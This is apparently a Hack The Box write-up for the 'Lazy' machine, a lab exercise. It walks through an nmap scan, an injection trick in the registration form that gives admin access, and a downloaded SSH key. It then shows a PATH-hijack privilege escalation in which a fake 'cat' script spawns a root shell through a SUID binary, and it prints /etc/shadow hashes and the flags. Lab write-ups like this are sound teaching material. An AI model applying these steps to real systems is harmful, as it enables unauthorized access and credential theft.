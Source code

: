 # Lazy
#### 10.10.10.18

```{r, engine='bash', count_lines}
nmap -sS -sV 10.10.10.18

Nmap scan report for 10.10.10.18
Host is up (0.16s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.48 seconds

```


Website directs us to devcompany's page
![Alt test](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Lazy/images/Website.PNG "Website")

**To start, you will need to create a user register and then log in to check this company's projects and potential.**

Tried some basic SQL Injections on the login page but nada.
So, lets create a testuser
![Alt test](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Lazy/images/testuserlogin.PNG "testuserlogin")



After creating a user, there is something peculiar
Once the user is registered, it automatically logs us in as that user.
Lets try and create a user with the name admin
![Alt test](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Lazy/images/adminalreadyexists.PNG "adminalreadyexists")

So admin already exists...
Maybe if we can trick the login form into thinking we have created the admin user, it should automatically log us into admin
Lets try a sql injection with some '=' signs
So the user we create will be
```
admin =
```
![Alt test](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Lazy/images/loginwithadmin.PNG "loginwithadmin")

And we are IN!!
![Alt test](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Lazy/images/adminpage.PNG "adminpage")


There is a ssh key which we can download


![Alt test](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Lazy/images/sshkey.PNG "sshkey")

Something important to note in the key page is the highlighted field. Thats the user the key is for
So we save the key in a file called mistos.key
Change its permissions to 600
```
root@kali:~/Hackthebox/Machines/Lazy# wget http://10.10.10.18/mysshkeywithnamemitsos
--2017-10-15 11:36:53--  http://10.10.10.18/mysshkeywithnamemitsos
Connecting to 10.10.10.18:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1679 (1.6K)
Saving to: ‘mysshkeywithnamemitsos’

mysshkeywithnamemitsos                      100%[===========================================================================================>]   1.64K  --.-KB/s    in 0s      

2017-10-15 11:36:53 (75.3 MB/s) - ‘mysshkeywithnamemitsos’ saved [1679/1679]

root@kali:~/Hackthebox/Machines/Lazy# mv mysshkeywithnamemitsos mitsos.key
root@kali:~/Hackthebox/Machines/Lazy# chmod 600 mitsos.key 
```

And we connect to mitsos
```
root@kali:~/Hackthebox/Machines/Lazy# ssh -i mitsos.key mitsos@10.10.10.18
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Sun Oct 15 11:29:36 EEST 2017

  System load:  0.0               Processes:           178
  Usage of /:   7.6% of 18.58GB   Users logged in:     0
  Memory usage: 12%               IP address for eth0: 10.10.10.18
  Swap usage:   0%

  Graph this data and manage this system at:
    https://landscape.canonical.com/

Last login: Sun Oct 15 11:29:36 2017 from 10.10.15.189
mitsos@LazyClown:~$ 
```

**user.txt**
```
mitsos@LazyClown:~$ cat user.txt
d558e7924bdfe31266ec96b007dc63fc
```

**Priv Esc**

```
mitsos@LazyClown:~$ ls -l
total 20
-rwsrwsr-x 1 root   root   7303 May  3 00:02 backup
drwxrwxr-x 4 mitsos mitsos 4096 May  2 18:41 peda
-rw------- 1 root   root     33 Oct 15 04:54 tmp.txt
-rw------- 1 mitsos mitsos   33 May  3 18:52 user.txt
```

There is a executable named backup
When we try and run it, it gives something like this
```
mitsos@LazyClown:~$ ./backup 
root:$6$v1daFgo/$.7m9WXOoE4CKFdWvC.8A9aaQ334avEU8KHTmhjjGXMl0CTvZqRfNM5NO2/.7n2WtC58IUOMvLjHL0j4OsDPuL0:17288:0:99999:7:::
daemon:*:17016:0:99999:7:::
bin:*:17016:0:99999:7:::
sys:*:17016:0:99999:7:::
sync:*:17016:0:99999:7:::
games:*:17016:0:99999:7:::
man:*:17016:0:99999:7:::
lp:*:17016:0:99999:7:::
mail:*:17016:0:99999:7:::
news:*:17016:0:99999:7:::
uucp:*:17016:0:99999:7:::
proxy:*:17016:0:99999:7:::
www-data:*:17016:0:99999:7:::
backup:*:17016:0:99999:7:::
list:*:17016:0:99999:7:::
irc:*:17016:0:99999:7:::
gnats:*:17016:0:99999:7:::
nobody:*:17016:0:99999:7:::
libuuid:!:17016:0:99999:7:::
syslog:*:17016:0:99999:7:::
messagebus:*:17288:0:99999:7:::
landscape:*:17288:0:99999:7:::
mitsos:$6$LMSqqYD8$pqz8f/.wmOw3XwiLdqDuntwSrWy4P1hMYwc2MfZ70yA67pkjTaJgzbYaSgPlfnyCLLDDTDSoHJB99q2ky7lEB1:17288:0:99999:7:::
mysql:!:17288:0:99999:7:::
sshd:*:17288:0:99999:7:::
```

Lets run a strings on it

```
mitsos@LazyClown:~$ strings backup 
/lib/ld-linux.so.2
libc.so.6
_IO_stdin_used
system
__libc_start_main
__gmon_start__
GLIBC_2.0
PTRh
[^_]
cat /etc/shadow
;*2$"
...
...
...
```

So its a simple exec which runs the command "cat /etc/shadow" and it is run by root
This is perfect for priv esc!

Our path contains
```
mitsos@LazyClown:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

What we can do is create a executable with the name cat in our home directory and add the our home directory to our $PATH
Lets start by addint the $PATH first
```
mitsos@LazyClown:~$ export PATH="/home/mitsos:$PATH"
mitsos@LazyClown:~$ echo $PATH
/home/mitsos:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

Now we need to create a cat executable.
We can create a bash script which will spawn a bash shell
Something as simple as
```
#!/bin/sh

/bin/sh
```

```
mitsos@LazyClown:~$ vim cat
mitsos@LazyClown:~$ chmod 777 cat
mitsos@LazyClown:~$ ls -l
total 24
-rwsrwsr-x 1 root   root   7303 May  3 00:02 backup
-rwxrwxrwx 1 mitsos mitsos   19 Oct 15 23:00 cat
drwxrwxr-x 4 mitsos mitsos 4096 May  2 18:41 peda
-rw------- 1 root   root     33 Oct 15 04:54 tmp.txt
-rw------- 1 mitsos mitsos   33 May  3 18:52 user.txt
```

We run "backup" now and it should pawn this lazy banana

```
mitsos@LazyClown:~$ ./backup 
# id
uid=1000(mitsos) gid=1000(mitsos) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare),1000(mitsos)
```
Remember, the cat command wont work now. So to use it we have to call it directly from /bin/cat

**root.txt**
```
/binn/cat /root/root.txt
990b142c3cefd46a5e7d61f678d45515
```
